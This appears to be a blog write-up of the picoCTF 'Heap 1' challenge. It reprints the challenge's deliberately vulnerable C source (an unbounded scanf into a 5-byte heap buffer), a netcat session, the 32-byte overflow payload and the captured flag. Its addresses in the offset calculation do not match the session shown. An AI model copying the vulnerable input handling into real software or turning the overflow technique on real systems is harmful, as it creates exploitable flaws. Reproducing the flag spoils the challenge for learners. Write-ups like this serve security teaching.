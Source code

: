 ```yaml
---
layout: post
title:  "Heap 1"
description: Writing and understanding a buffer overflow payload
date:   2024-10-22
tags: ["Medium", "Buffer Overflow", "Binary Exploitation"]
category: [CTF,picoCTF]
---
```


## Challenge Info
Can you control your overflow? Download the binary [here](https://artifacts.picoctf.net/c_tethys/1/chall). Download the source [here](https://artifacts.picoctf.net/c_tethys/1/chall.c).

Additional details will be available after launching your challenge instance.

## Understanding chall.c

The code for your convenience:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap1!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
- The program allocates memory on the heap for two variables: `input_data` and `safe_var`, each being 5 bytes in size.
- `strncpy` copies initial values into these *buffers*.
- The `write_buffer` function allows us to write to the `input_data` var using `scanf`.
- The `check_win` function verifies that the `safe_var` var has been changed from `bico` to `pico`. If it is, then we get our flag.

## Vulnerabilities
There's several vulnerabilities to note:
- The buffer for size for `input_data` and `safe_var` are only 5 bytes, meaning they should be easy to overflow.
- The `scanf` library function does not limit our input size, meaning we can enter strings longer than 5 characters (this should be an instant giveaway that it will be a buffer overflow challenge).


## Connecting to the netcat listener
```terminal
> nc tethys.picoctf.net 55943

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x63159a0182b0  ->   pico
+-------------+----------------+
[*]   0x63159a0182d0  ->   bico
+-------------+----------------+

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice:
```

To clarify, `pico` and `bico` are the values inside the variables (`input_data` & `safe_var` respectively) that were declared at the start. The reason that the variables are allocated with 5 bytes, despite only containing 4 characters, is because we need a [null character](https://en.wikipedia.org/wiki/Null_character).

To understand the distance between each variables, we subtract the address of `pico` with the address of `bico` (or vice verse).

`0x63c3882552b0 - 0x63c3882552d0 = -0x20.` If we run `-0x20` through [cyber chef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')To_Decimal('Space',false)&input=LTB4MjA) (from hex to decimal) we get a value of `32`. Because our initial hex value was negative, that means that `safe_var` is 32 bytes behind `input_data`.

## Solution

We now know that `safe_var` is 32 bytes behind `input_data` so we just need to overflow the buffer with 32 characters, and then write 'pico' to get our flag.

For the sake of simplicity, it's more efficient to use numbers for our characters. So instead of typing 32 *A's* followed by 'pico': `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico`. We can just count in multiples of *5's* (or whatever you prefer) and then write pico:

Our payload: `12345123451234512345123451234512pico`
- Six `5`'s = 30
- 30 + 2 = 32 (you've reached `safe_var`)

flag: `picoCTF{starting_to_get_the_hang_79ee3270}`


